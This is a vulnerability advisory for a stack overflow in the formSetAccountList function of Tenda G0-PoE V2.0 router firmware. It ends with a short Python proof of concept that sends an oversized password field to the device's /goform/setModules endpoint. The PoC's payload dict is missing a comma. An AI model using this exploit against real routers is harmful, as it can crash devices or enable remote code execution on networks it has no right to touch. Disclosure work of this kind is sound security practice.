

# Tenda G0-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 32、38, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v18`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
